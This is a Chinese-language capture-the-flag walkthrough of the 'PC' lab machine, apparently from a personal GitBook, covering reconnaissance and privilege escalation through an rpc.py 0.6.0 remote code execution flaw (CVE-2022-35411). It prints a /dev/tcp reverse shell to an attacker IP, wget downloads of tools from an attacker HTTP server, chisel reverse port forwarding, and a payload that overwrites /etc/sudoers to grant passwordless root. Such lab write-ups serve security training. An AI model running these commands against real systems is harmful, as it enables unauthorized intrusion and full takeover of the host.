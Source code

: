 ```yaml
---
description: Linux / 中等难度 / rpc.py 0.6.0 RCE
---
```


# ✔️ PC

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描，发现2个开放端口：22和8000

<figure><img src="../.gitbook/assets/1 (4).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 从Nmap扫描结果也可直接得知，发现8000端口就是一个终端：

<figure><img src="../.gitbook/assets/2 (4).png" alt=""><figcaption></figcaption></figure>

* 将shell回连到自己的Kaili机器上，方便后续操作：

```bash
# Kali
nc -lvnp 5555
# 目标主机
sh -i >& /dev/tcp/192.168.45.154/5555 0>&1
```

<figure><img src="../.gitbook/assets/3 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (5).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 传linpeas.sh到目标系统进行信息收集：

```bash
# Kali目录下开启服务器
pyhton3 -m http.server 8888
# 目标主机
wget http://192.168.45.154:8888/linpeas.sh /home/user/linpeas.sh
```

<figure><img src="../.gitbook/assets/5 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
关于linpeas所收集到的可能可被利用的CVE漏洞是具有参考意义的，但并非每次都能成功作用于当前的目标系统，还需要结合目标系统实际的具体情况，仔细查看各项输出信息，再做判断。（兔子洞很容易出现在这个阶段，就像本例就没有利用到那些建议的CVE）
{% endhint %}

* 本例中，从linpeas的输出信息可得知还有两个活动的开放端口（53和65432）是之前Nmap阶段并没有扫描出来的，因此可以重点关注一下：

<figure><img src="../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

* 在查看以root权限运行的进程时，发现有一个\`rpc.py\`的脚本是运行在/opt目录下的，该目录并不是安装默认应用程序的文件夹：

<figure><img src="../.gitbook/assets/7 (6).png" alt=""><figcaption></figcaption></figure>

* 查看一下该脚本发现它是运行在当前目标系统的65432端口上的，又是65432：

<figure><img src="../.gitbook/assets/8 (7).png" alt=""><figcaption></figcaption></figure>

* 因为之前的扫描无法得知端口65432上运行的关于服务的具体信息，所以决定使用chisel对该端口进行反向端口转发，再用Nmap扫出关于它的详细信息：

```bash
# Kali机器和目标系统机器都需要安装相同版本的chisel
# 本例下载的是chisel linux 1.9.1版本的，将该工具传入目标系统中
wget http://192.168.45.154:8888/chisel /home/user/chisel
chmod +x chisel
```

<figure><img src="../.gitbook/assets/9 (5).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器上开启chisel服务器，监听好端口：

```bash
chisel server -p 7777 --reverse
```

<figure><img src="../.gitbook/assets/10 (5).png" alt=""><figcaption></figcaption></figure>

* 然后在目标系统上开启chisel的客户端，并设置端口转发各个参数后运行：

```bash
chisel client 192.168.xx.xxx:7777 R:65432:127.0.0.1:65432
```

<figure><img src="../.gitbook/assets/11 (4).png" alt=""><figcaption></figcaption></figure>

* 此时Kali主机的服务端应该已经有了转发成功的数据流，可确认一下是否真的成功：

```bash
netstat -tulnp
```

<figure><img src="../.gitbook/assets/12 (4).png" alt=""><figcaption></figcaption></figure>

* 现在就可以用Nmap对Kali机器上的65432端口进行扫描，以获取该端口上运行的服务的详细信息了：

```bash
nmap -sC -sV -p 65432 127.0.0.1 -A -sT
```

<figure><img src="../.gitbook/assets/13 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据Nmap输出信息，没有发现什么东西，所以直接尝试搜索\`rpc.py\`的漏洞利用，发现了一个远程代码执行的漏洞：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 阅读代码后，发现可将\`exec\_command()\`函数中的内容直接修改为自己需要的命令：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将此处命令修改为可以让user用户无需密码即可以root权限运行各个命令：

```bash
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 这个脚本是直接在exploitdb里下载的，里面每个=后面都有个\`3D\`的乱码得删掉，才能执行成功。

### ROOT

* 修改好后的脚本传入目标机器，赋予执行权限，直接运行该脚本即可提权成功：

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获取flag：

<figure><img src="../.gitbook/assets/20 (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例以为又是一个评级过高的简单机器，因为该机器并没有GET SHELL的过程。在之后的提权阶段需要涉及到反向端口转发和仔细的进行信息枚举，才能发现可被利用的漏洞。

CVE-2022-35411
{% endhint %}
